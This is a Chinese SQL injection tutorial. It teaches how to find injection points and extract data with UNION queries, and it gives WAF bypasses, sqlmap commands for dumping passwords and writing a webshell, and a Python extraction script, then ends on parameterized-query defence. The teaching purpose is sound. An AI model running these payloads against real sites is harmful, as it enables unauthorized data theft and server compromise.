

## 1. SQL注入基础

SQL注入（SQL Injection）连续多年位居 OWASP Top 10 榜首，是 Web 安全中最经典、最高危的漏洞类型之一。它的本质只有一句话：**用户提供的数据被当作 SQL 代码执行了**。理解这句话，就理解了整个注入攻击的逻辑起点。

本节作为核心技巧的第一篇，聚焦于三个基础能力：如何判断一个参数是否存在注入、如何确认注入类型、以及如何利用 UNION 联合查询提取数据。后续的报错注入、盲注、堆叠注入、NoSQL 注入等进阶技术将在各自专题中展开。

### 1.1 注入原理：数据与代码的边界

#### 1.1.1 从一个登录表单说起

考虑以下后端代码（PHP 为例）：

```php
$username = $_POST['username'];
$password = $_POST['password'];
$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($conn, $sql);
```

当用户输入 `admin` / `123456` 时，生成的 SQL 为：

```sql
SELECT * FROM users WHERE username='admin' AND password='123456'
```

这是正常行为。但如果用户在用户名字段输入 `' OR 1=1 --`，生成的 SQL 变为：

```sql
SELECT * FROM users WHERE username='' OR 1=1 --' AND password='任意值'
```

- `'` 闭合了前面的字符串引号
- `OR 1=1` 使 WHERE 条件恒为真
- `--` 注释掉了后面的密码校验

数据库返回了所有用户记录，攻击者无需密码即完成登录。这就是 SQL 注入。

#### 1.1.2 注入成立的三个必要条件

| 条件 | 说明 | 示例 |
|------|------|------|
| 用户输入进入 SQL 语句 | 参数被直接拼接到查询字符串中 | `$sql = "... WHERE id=" . $_GET['id']` |
| SQL 语句被发送到数据库执行 | 拼接后的字符串没有经过预编译或参数化处理 | `mysqli_query($conn, $sql)` |
| 执行结果可被观测 | 攻击者能通过页面、报错、时间差异等方式感知注入效果 | 页面显示查询结果、返回 HTTP 错误、响应延迟 |

三个条件缺一不可。如果应用使用了参数化查询（PreparedStatement），则第一个条件不成立，注入无法生效。

#### 1.1.3 注入攻击全景



### 1.2 注入点识别方法

识别注入点是渗透测试的第一步。你需要找到所有用户可控的输入位置，然后逐一测试是否存在注入。

#### 1.2.1 注入位置分类

| 注入位置 | 说明 | 识别方式 |
|----------|------|----------|
| GET 参数 | URL 查询字符串中的参数 | `?id=1&name=test`，直接在 URL 中修改 |
| POST 参数 | 表单提交的数据 | 使用 Burp Suite 拦截请求，修改 POST body |
| Cookie 注入 | Cookie 中存储的值 | 修改浏览器 Cookie 或使用 Burp 修改 |
| HTTP 头注入 | User-Agent、Referer、X-Forwarded-For 等 | 修改请求头中的特定字段 |
| 二阶注入 | 输入被存储后在后续查询中触发 | 需要分析应用逻辑，找到存储后再使用的位置 |

实际测试中，GET 和 POST 参数是最常见的入口，但不要忽略 Cookie 和 HTTP 头。某些应用会将 `X-Forwarded-For` 记录到数据库（如访问日志），如果该字段未经过滤，就存在注入点。

#### 1.2.2 数字型与字符型注入的判断

注入分为两大类：数字型和字符型。判断方法不同，payload 构造方式也不同。

**数字型注入**——参数直接参与数值比较，不带引号：

```sql
-- 后端 SQL
SELECT * FROM products WHERE id = 1

-- 测试方法
?id=1'        → 报错（多了一个引号，语法错误）
?id=1 AND 1=1 → 正常返回（条件为真，结果不变）
?id=1 AND 1=2 → 返回空或异常（条件为假，无匹配数据）
```

判断逻辑：如果 `AND 1=1` 和 `AND 1=2` 的返回结果不同，说明参数被当作数值直接拼接到了 SQL 中，存在数字型注入。

**字符型注入**——参数被包裹在引号中：

```sql
-- 后端 SQL
SELECT * FROM products WHERE name = 'test'

-- 测试方法
?id=test'        → 报错（引号不匹配）
?id=test' AND '1'='1 → 正常返回（闭合引号后条件为真）
?id=test' AND '1'='2 → 返回空或异常（条件为假）
```

判断逻辑：如果 `AND '1'='1'` 和 `AND '1'='2'` 的返回结果不同，说明参数在引号内，存在字符型注入。

**快速判断参考表：**

| 测试 Payload | 数字型结果 | 字符型结果 | 说明 |
|-------------|-----------|-----------|------|
| 加一个单引号 `'` | 报错 | 报错 | 引起语法错误，初步判断存在注入 |
| `AND 1=1` / `AND '1'='1` | 正常 | 正常 | 条件为真，页面不变 |
| `AND 1=2` / `AND '1'='2` | 异常 | 异常 | 条件为假，页面变化 |
| `AND 1=1 -- ` | 正常 | 正常 | 注释掉后续内容，确认可控 |
| `ORDER BY 10` | 能执行 | 能执行 | 测试列数，后续章节详述 |

#### 1.2.3 闭合符号的识别

字符型注入的关键在于**正确闭合引号**。常见闭合方式：

```sql
-- 单引号闭合（最常见）
' OR 1=1 --
' OR '1'='1
' OR 1=1 #

-- 双引号闭合
" OR 1=1 --
" OR "1"="1

-- 括号闭合（某些存储过程/子查询）
') OR 1=1 --
") OR 1=1 --

-- 无闭合（数字型直接拼接）
OR 1=1 --
1 OR 1=1
```

不同数据库使用的注释符号不同：

| 数据库 | 单行注释 | 多行注释 |
|--------|---------|---------|
| MySQL | `-- `（注意空格）或 `#` | `/* */` |
| MSSQL | `--` | `/* */` |
| PostgreSQL | `--` | `/* */` |
| Oracle | `--` | `/* */` |
| SQLite | `--` | 不支持 |

注意：MySQL 的 `--` 后面必须有一个空格（或 `--+`、`--%20`），否则不会被识别为注释。

### 1.3 手动注入完整流程

以下是手动进行 SQL 注入的标准流程，从发现注入点到提取完整数据，共五个步骤。

#### 1.3.1 Step 1：确认注入点存在

```bash
# === 数字型注入测试 ===
http://target/page?id=1'          # 加引号 → 报错，初步确认
http://target/page?id=1 AND 1=1   # 条件为真 → 页面正常
http://target/page?id=1 AND 1=2   # 条件为假 → 页面异常

# === 字符型注入测试 ===
http://target/page?id=1'          # 加引号 → 报错，初步确认
http://target/page?id=1' AND '1'='1  # 条件为真 → 页面正常
http://target/page?id=1' AND '1'='2  # 条件为假 → 页面异常
```

如果报错信息中包含 SQL 语法错误（如 `You have an error in your SQL syntax`），基本可以确认存在注入。如果没有报错，需要通过逻辑差异（AND 1=1 vs AND 1=2）来判断，这就是后续盲注技术的基础。

#### 1.3.2 Step 2：判断列数（ORDER BY 二分法）

UNION SELECT 要求前后两个 SELECT 的列数相同，所以必须先确定原查询的列数。使用 `ORDER BY` 递增测试：

```bash
http://target/page?id=1' ORDER BY 1--     # 正常
http://target/page?id=1' ORDER BY 5--     # 正常
http://target/page?id=1' ORDER BY 10--    # 报错
http://target/page?id=1' ORDER BY 7--     # 正常
http://target/page?id=1' ORDER BY 8--     # 报错 → 列数为 7
```

**二分法优化**：不要从 1 开始逐个递增，先测一个较大值（如 20），如果报错再测 10，逐步缩小范围，效率更高。

```bash
# 二分法示例
ORDER BY 20 → 报错（列数 < 20）
ORDER BY 10 → 正常（列数 >= 10）
ORDER BY 15 → 报错（列数 < 15）
ORDER BY 12 → 正常（列数 >= 12）
ORDER BY 13 → 正常（列数 >= 13）
ORDER BY 14 → 报错（列数 < 14）→ 列数 = 13
```

#### 1.3.3 Step 3：UNION 联合查询确定回显位

确定列数后，用 UNION SELECT 查看哪些列的内容会在页面上显示：

```bash
# 列数为 5 时
http://target/page?id=-1' UNION SELECT 1,2,3,4,5--

# 观察页面，找到显示数字的位置
# 比如页面上显示了 "2" 和 "4"，说明第 2 列和第 4 列会回显
```

**关键点**：主查询的 id 设为 `-1`（或其他不存在的值），使主查询返回空，页面上只显示 UNION 注入的数据。

#### 1.3.4 Step 4：获取数据库信息

```bash
# 获取当前数据库名和版本
http://target/page?id=-1' UNION SELECT 1,database(),version(),4,5--

# 输出示例：current_db = "shop", version = "5.7.34"
```

数据库版本决定了你能用哪些注入技巧：

| 版本特性 | MySQL 5.0+ | MySQL 5.0 以下 |
|----------|-----------|---------------|
| information_schema | 可用 | 不可用，需盲猜表名 |
| GROUP_CONCAT | 可用 | 不可用，需 LIMIT 逐条获取 |
| LOAD_FILE / INTO OUTFILE | 可用（需 FILE 权限） | 可用 |
| 子查询 | 可用 | 受限 |

#### 1.3.5 Step 5：提取完整数据

通过 `information_schema` 系统数据库逐层提取所有数据：

```sql
-- 1. 获取所有数据库名
' UNION SELECT 1,GROUP_CONCAT(schema_name),3,4,5 FROM information_schema.schemata--
-- 输出示例：information_schema,mysql,performance_schema,shop,test

-- 2. 获取目标数据库的所有表名
' UNION SELECT 1,GROUP_CONCAT(table_name),3,4,5 FROM information_schema.tables WHERE table_schema=database()--
-- 输出示例：users,products,orders,admins

-- 3. 获取目标表的所有列名
' UNION SELECT 1,GROUP_CONCAT(column_name),3,4,5 FROM information_schema.columns WHERE table_name='users'--
-- 输出示例：id,username,password,email,role

-- 4. 提取数据
' UNION SELECT 1,GROUP_CONCAT(username,0x3a,password),3,4,5 FROM users--
-- 输出示例：admin:5f4dcc3b5aa765d61d8327deb882cf99,user1:e10adc3949ba59abbe56e057f20f883e
```

`0x3a` 是冒号 `:` 的十六进制编码，用于分隔字段。直接在 payload 中写冒号可能与 SQL 语法冲突，用十六进制更安全。

`GROUP_CONCAT` 将多行结果合并为一个字符串。如果数据量太大超过 `group_concat_max_len`（默认 1024 字节），可以用 `LIMIT offset,count` 逐条提取：

```sql
-- 逐条提取（第 1 条）
' UNION SELECT 1,CONCAT(username,0x3a,password),3,4,5 FROM users LIMIT 0,1--
-- 第 2 条
' UNION SELECT 1,CONCAT(username,0x3a,password),3,4,5 FROM users LIMIT 1,1--
```

### 1.4 MySQL 信息速查

UNION 注入的核心在于对 `information_schema` 的利用。以下是需要掌握的关键结构：

#### 1.4.1 information_schema 核心表

```sql
-- 所有数据库
SELECT schema_name FROM information_schema.schemata;

-- 指定数据库的所有表
SELECT table_name FROM information_schema.tables WHERE table_schema = '目标库名';

-- 指定表的所有列
SELECT column_name, data_type FROM information_schema.columns WHERE table_name = '目标表名';

-- MySQL 用户及权限
SELECT user, host, authentication_string FROM mysql.user;
```

#### 1.4.2 常用 MySQL 函数

| 函数 | 用途 | 示例 |
|------|------|------|
| `database()` | 当前数据库名 | `SELECT database()` → `shop` |
| `version()` | MySQL 版本 | `SELECT version()` → `5.7.34-log` |
| `user()` | 当前用户 | `SELECT user()` → `root@localhost` |
| `@@datadir` | 数据目录路径 | `SELECT @@datadir` → `/var/lib/mysql/` |
| `@@basedir` | 安装目录 | `SELECT @@basedir` → `/usr/` |
| `@@version_compile_os` | 操作系统 | `SELECT @@version_compile_os` → `Linux` |
| `GROUP_CONCAT()` | 合并多行为一行 | `GROUP_CONCAT(table_name)` |
| `CONCAT()` | 字符串拼接 | `CONCAT(user,0x3a,pass)` |
| `SUBSTR()` | 子字符串截取 | `SUBSTR(database(),1,1)` |
| `HEX()` | 十六进制编码 | `HEX('admin')` → `61646D696E` |
| `LOAD_FILE()` | 读取服务器文件 | `LOAD_FILE('/etc/passwd')` |
| `CHAR()` | ASCII 转字符 | `CHAR(97)` → `a` |

#### 1.4.3 MySQL 权限判断

注入能做什么取决于当前数据库用户的权限。不同权限下可执行的操作差异巨大：

```sql
-- 判断当前用户
' UNION SELECT 1,user(),3,4,5--

-- 判断是否为 root（MySQL 中的最高权限用户）
' UNION SELECT 1,IF(SUBSTR(user(),1,4)='root','YES','NO'),3,4,5--

-- 判断 FILE 权限（能否读写文件）
' UNION SELECT 1,GRANTEE,PRIVILEGE_TYPE FROM information_schema.user_privileges WHERE PRIVILEGE_TYPE='FILE' LIMIT 0,1--

-- 判断 SUPER 权限（能否执行系统命令）
' UNION SELECT 1,GRANTEE,PRIVILEGE_TYPE FROM information_schema.user_privileges WHERE PRIVIVILEGE_TYPE='SUPER' LIMIT 0,1--
```

| 权限 | 可执行操作 | 注入利用价值 |
|------|-----------|-------------|
| SELECT | 读取数据 | 基础数据提取，最常见 |
| FILE | 读写服务器文件 | `LOAD_FILE()` 读取 `/etc/passwd`、`INTO OUTFILE` 写入 WebShell |
| SUPER | 执行系统命令 | 配合 UDF 提权执行命令 |
| INSERT | 插入数据 | 修改数据、钓鱼 |
| UPDATE | 更新数据 | 篡改数据、提权 |
| DELETE | 删除数据 | 破坏性攻击 |
| CREATE/DROP | 建表/删表 | 创建恶意表、破坏数据库结构 |

### 1.5 数据库指纹识别

注入第一步通常是确定目标数据库类型，因为不同数据库的语法差异很大。以下是常用的指纹识别方法：

#### 1.5.1 版本函数法

```sql
-- MySQL
' UNION SELECT 1,version(),3--       → 5.7.34-log

-- PostgreSQL
' UNION SELECT 1,version(),3--       → PostgreSQL 13.3 on x86_64...

-- MSSQL
' UNION SELECT 1,@@version,3--       → Microsoft SQL Server 2019...

-- Oracle
' UNION SELECT 1,banner FROM v$version WHERE ROWNUM=1--  → Oracle Database 19c...

-- SQLite
' UNION SELECT 1,sqlite_version(),3-- → 3.36.0
```

#### 1.5.2 特征语法法

当 UNION 被禁用时，可以通过构造特定语法观察报错信息来判断数据库类型：

```sql
-- MySQL 特征：反引号包裹表名
SELECT `nonexistent`     → 报错包含 "unknown column"

-- MSSQL 特征：分号执行多语句
; WAITFOR DELAY '0:0:5'  → 如果延迟 5 秒，确认 MSSQL

-- Oracle 特征：dual 伪表
SELECT 1 FROM dual       → Oracle 必须有 FROM 子句

-- PostgreSQL 特征：类型转换
SELECT 1::int            → PostgreSQL 独有的类型转换语法

-- SQLite 特征：无 information_schema
SELECT * FROM sqlite_master → SQLite 使用 sqlite_master 而非 information_schema
```

#### 1.5.3 各数据库注入语法差异速查

| 特性 | MySQL | MSSQL | PostgreSQL | Oracle | SQLite |
|------|-------|-------|------------|--------|--------|
| 注释符 | `-- ` `#` | `--` | `--` | `--` | `--` |
| 字符串拼接 | `CONCAT()` | `+` | `\|\|` | `\|\|` | `\|\|` |
| 获取版本 | `version()` | `@@version` | `version()` | `SELECT banner FROM v$version` | `sqlite_version()` |
| 获取当前库 | `database()` | `DB_NAME()` | `current_database()` | `SELECT ora_database_name FROM dual` | 无直接函数 |
| 系统表 | `information_schema` | `information_schema` + `sysobjects` | `information_schema` + `pg_catalog` | `all_tables` / `dba_tables` | `sqlite_master` |
| 延时函数 | `SLEEP(N)` | `WAITFOR DELAY '0:0:N'` | `pg_sleep(N)` | `DBMS_PIPE.RECEIVE_MESSAGE()` | 无内置函数 |
| 堆叠查询 | 需 `mysqli_multi_query` | 默认支持 | 默认支持 | 默认支持 | 默认支持 |

### 1.6 过滤绕过基础

大多数实际目标不会暴露原始注入点。WAF（Web 应用防火墙）和应用层过滤会拦截常见关键字。以下是基础绕过思路：

#### 1.6.1 大小写混合

```text
原始: UNION SELECT
绕过: UnIoN sElEcT
```

简单的黑名单过滤可能只匹配全大写或全小写，混合大小写可以绕过。

#### 1.6.2 双写绕过

```text
过滤规则: 替换 UNION 为空
原始: UNION SELECT
绕过: UNIUNIONON SELECT
```

某些过滤逻辑是直接删除关键字字符串而非拒绝请求。删除一次 `UNION` 后剩下 `UNION`，仍然有效。

#### 1.6.3 编码绕过

```sql
URL编码:
UNION → %55%4E%49%4F%4E
SELECT → %53%45%4C%45%43%54

双重URL编码:
UNION → %2555%254E%2549%254F%254E

十六进制:
0x756E696F6E（UNION 的十六进制）
```

某些 WAF 解码一次后放行，而应用服务器再解码一次，最终执行的仍是恶意 SQL。

#### 1.6.4 内联注释

MySQL 特有的 `/*! ... */` 语法，在 MySQL 中会被执行，其他数据库视为注释：

```sql
/*!UNION*/ /*!SELECT*/ 1,2,3--
/*!50000UNION*/ /*!50000SELECT*/ 1,2,3--  （仅 MySQL 5.0+ 执行）
```

#### 1.6.5 空白符替代

当空格被过滤时，可以用以下字符替代：

```text
/**/     → MySQL 内联注释，等效于空格
%09      → Tab 制表符
%0a      → 换行符
%0b      → 垂直制表符
%0c      → 换页符
%0d      → 回车符
%a0      → 不间断空格（需要特定字符集）
()+      → 某些场景下的替代
```

### 1.7 常见误区与纠正

#### 误区一：看到报错就认为存在注入

报错可能是语法错误，也可能是应用本身的异常处理。必须通过 `AND 1=1` / `AND 1=2` 的逻辑差异来确认，不能仅凭报错就断定存在注入。

#### 误区二：只测 GET 参数就放弃

很多渗透测试新手只测 URL 中的 GET 参数。实际上 POST 表单、Cookie、HTTP 头、甚至 JSON body 中的参数都可能成为注入点。使用 Burp Suite 的 Intruder 模块对所有参数进行批量测试。

#### 误区三：ORDER BY 测试不注意回显差异

`ORDER BY N` 当 N 超过实际列数时不一定返回 HTTP 500 错误。有些应用会捕获异常并返回自定义错误页面，有些会返回空结果。你需要关注的是**页面是否与正常状态有差异**，而非是否报错。

#### 误区四：UNION 查询忘记排除主查询结果

直接 `UNION SELECT 1,2,3,4,5` 可能被主查询的结果覆盖，看不到注入的数据。必须将主查询条件设为假（如 `id=-1`），让页面只显示 UNION 注入的内容。

#### 误区五：GROUP_CONCAT 结果被截断不知道

`group_concat_max_len` 默认为 1024 字节。如果表名或数据超过这个长度，结果会被截断且不会报错。解决方案：

```sql
-- 临时增大限制
' UNION SELECT 1,GROUP_CONCAT(table_name SEPARATOR 0x0a),3,4,5 FROM (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,20)a--

-- 或使用 LIMIT 分批获取
' UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1--
' UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1--
```

### 1.8 实战工具辅助

手动注入用于理解原理和应对简单场景，实际渗透测试中通常借助自动化工具提高效率。

#### 1.8.1 sqlmap 基础用法

sqlmap 是最成熟的 SQL 注入自动化工具，支持几乎所有主流数据库：

```bash
# 基础检测
sqlmap -u "http://target/page?id=1" --batch

# 指定注入参数
sqlmap -u "http://target/page?id=1" -p id

# POST 请求
sqlmap -u "http://target/login" --data="username=admin&password=123" -p username

# 带 Cookie 的请求
sqlmap -u "http://target/page?id=1" --cookie="session=abc123"

# 指定数据库类型（跳过指纹识别，加快速度）
sqlmap -u "http://target/page?id=1" --dbms=mysql

# 获取所有数据库名
sqlmap -u "http://target/page?id=1" --dbs

# 获取指定数据库的表
sqlmap -u "http://target/page?id=1" -D shop --tables

# 获取指定表的数据
sqlmap -u "http://target/page?id=1" -D shop -T users --dump

# 获取数据库用户密码哈希
sqlmap -u "http://target/page?id=1" --passwords

# 读取服务器文件
sqlmap -u "http://target/page?id=1" --file-read="/etc/passwd"

# 写入文件到服务器
sqlmap -u "http://target/page?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

#### 1.8.2 Burp Suite 手动测试流程

1. 配置浏览器代理指向 Burp（默认 127.0.0.1:8080）
2. 浏览目标网站，Burp 自动拦截所有请求
3. 在 Repeater 中对可疑参数添加单引号，观察响应
4. 用 Intruder 对多个参数批量测试注入标记
5. 在 Comparer 中对比正常响应和异常响应的差异

#### 1.8.3 Python 手动注入脚本模板

理解原理后，建议编写自己的注入脚本。以下是一个基础模板：

```python
import requests
import string

def inject(url, payload_template, position=2, normal_check="正常内容"):
    """
    基础 UNION 注入提取器
    url: 目标 URL（不含参数）
    payload_template: payload 模板，{sql} 为注入 SQL 占位符
    position: 回显位（页面上显示注入数据的列号）
    normal_check: 判断页面正常的特征字符串
    """
    session = requests.Session()
    session.headers.update({"User-Agent": "Mozilla/5.0"})

    def query(sql):
        payload = payload_template.format(sql=sql)
        resp = session.get(f"{url}?id={payload}")
        return resp.text

    # Step 1: 确认注入
    r1 = query("' AND '1'='1")
    r2 = query("' AND '1'='2")
    if normal_check in r1 and normal_check not in r2:
        print("[+] 确认存在字符型注入")
    else:
        print("[-] 未检测到注入，尝试其他方式")
        return

    # Step 2: 获取数据库信息
    db_info = query(f"' UNION SELECT 1,CONCAT(database(),0x7e,version()),3--")
    print(f"[*] 数据库信息: {db_info}")

    # Step 3: 获取所有表名
    tables = query("' UNION SELECT 1,GROUP_CONCAT(table_name),3 FROM information_schema.tables WHERE table_schema=database()--")
    print(f"[*] 所有表: {tables}")

    # Step 4: 获取指定表的列名
    target_table = "users"
    columns = query(f"' UNION SELECT 1,GROUP_CONCAT(column_name),3 FROM information_schema.columns WHERE table_name='{target_table}'--")
    print(f"[*] {target_table} 表列名: {columns}")

    # Step 5: 提取数据
    data = query(f"' UNION SELECT 1,GROUP_CONCAT(username,0x3a,password SEPARATOR 0x0a),3 FROM {target_table}--")
    print(f"[*] 数据:\n{data}")

# 使用示例
inject(
    url="http://target/page",
    payload_template="{sql}",
    position=2,
    normal_check="商品列表"
)
```

### 1.9 UNI ON 注入的局限性

UNION 注入是最直观的注入方式，但它有明确的适用边界：

| 局限 | 说明 | 解决方案 |
|------|------|----------|
| 需要回显位 | 页面必须显示查询结果中至少一列 | 无回显时用报错注入或盲注 |
| 需要知道列数 | 列数不对则 UNION 失败 | ORDER BY / 二分法探测 |
| SELECT 被禁用 | 某些 WAF 或应用过滤了 SELECT 关键字 | 绕过过滤或使用报错注入 |
| 无法执行多语句 | MySQL 默认不支持堆叠查询 | 使用 PDO 或 mysqli_multi_query 时才可堆叠 |
| 输出长度受限 | GROUP_CONCAT 有默认长度限制 | LIMIT 分批提取 |

当 UNION 注入不可用时，需要切换到其他技术：

- **报错注入**：通过数据库报错函数回显数据，不需要页面有回显位（见 02-报错注入）
- **布尔盲注**：通过页面内容差异逐字符推断数据（见 03-盲注技术）
- **时间盲注**：通过响应延迟逐字符推断数据（见 03-盲注技术）
- **堆叠注入**：执行多条独立 SQL 语句，突破 SELECT 限制（见 04-堆叠注入）

### 1.10 防御入门：为什么参数化查询能防注入

理解防御才能更好地理解攻击。参数化查询（PreparedStatement）之所以能防御注入，核心在于**它将 SQL 代码与数据分离**：

```php
// 错误方式：字符串拼接（数据和代码混在一起）
$sql = "SELECT * FROM users WHERE username='$username'";

// 正确方式：参数化查询（数据和代码分离）
$stmt = $pdo->prepare("SELECT * FROM users WHERE username=?");
$stmt->execute([$username]);
```

参数化查询中，`?` 占位符处的值永远被当作数据处理，不会被解释为 SQL 代码。即使输入 `' OR 1=1 --`，数据库也只会查找用户名为字面量 `' OR 1=1 --` 的记录，而不是将其作为 SQL 语法执行。

这就是为什么注入攻击的终极防御是参数化查询，而非黑名单过滤——过滤总有可能遗漏，而参数化从架构层面消除了数据与代码混淆的可能。

更详细的防御方案（WAF 绕过、编码防御、权限控制等）将在 07-SQL注入防御 一节中展开。

***

> **本节小结**：SQL 注入基础是所有注入技术的起点。掌握注入点识别（数字型 vs 字符型、闭合符号、注释符）、ORDER BY 测列数、UNION 联合查询提取数据这三个核心步骤，就具备了应对最常见注入场景的能力。接下来的章节将在此基础上，逐步引入报错注入、盲注、堆叠注入等更高级的技术。
